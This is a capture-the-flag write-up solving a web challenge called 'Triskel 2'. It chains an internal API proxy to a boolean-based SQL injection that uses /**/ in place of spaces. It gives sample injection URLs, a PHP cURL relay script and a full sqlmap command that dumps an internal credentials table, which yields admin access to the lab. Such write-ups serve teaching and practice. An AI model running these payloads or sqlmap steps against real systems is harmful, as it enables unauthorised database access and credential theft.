




# Triskel 2: Going In

## Problem

What did you do? You shouldn't have access to this chat, but you can't do anything from it right?

by Remsio

## Solution

Taking a closer look at `10.0.42.200`, we can see that there is a GET form with the `search` parameter.



Hence, we can use

```text
GET /api/call_api.php?api=10.0.42.200?search=
```

Testing out some basic payloads showed that SQL injection was possible, but spaces aren't allowed. Luckily, in MySQL, we can replace the spaces with comments \(`/**/`\).

We can see that

```text
/api/call_api.php?api=10.0.42.200/?search=admin_richard_lauren'/**/OR/**/'1'='1
```

returns us all the messages, while

```text
/api/call_api.php?api=10.0.42.200/?search=admin_richard_lauren'/**/OR/**/'1'='2
```

does not.

I could have scripted this myself, but I decided it was too much work and just relied on good ol' SQLMap. However, it required some fine-tuning to make sure SQLMap performs the injection correctly.

We're doing a "GET request within a GET request", so SQLMap gets confused. I set up a local HTTP proxy as follows:

```php
<?php
    // create a new cURL resource
    $ch = curl_init();

    // set URL and other appropriate options
    curl_setopt($ch, CURLOPT_URL, 'http://10.35.2.134:8100/api/call_api.php?api=10.0.42.200?search=' . $_GET['search']);
    curl_setopt($ch, CURLOPT_HEADER, false);

    // grab URL and pass it to the browser
    echo curl_exec($ch);

    // close cURL resource, and free up system resources
    curl_close($ch);
?>
```

Then, we can run SQLMap:

`sqlmap http://127.0.0.1/test.php?search=abc -p search --tamper=space2comment --technique=B --risk 3 --dump --threads 10 -D db -T internal_api_infos`

Note that we specify:

* `-p search`: inject through the search parameter
* `--tamper=space2comment`: modify the queries such that spaces are replaced by `/**/`
* `--technique=B`: use boolean-based injection
* `--risk 3`: attempt OR boolean-based injection \(which we found earlier\)

We get the admin credentials, which we can use to login to the first webpage.



The remaining credentials are shown below:



This allows us to access the Admin page, which contains the flag.



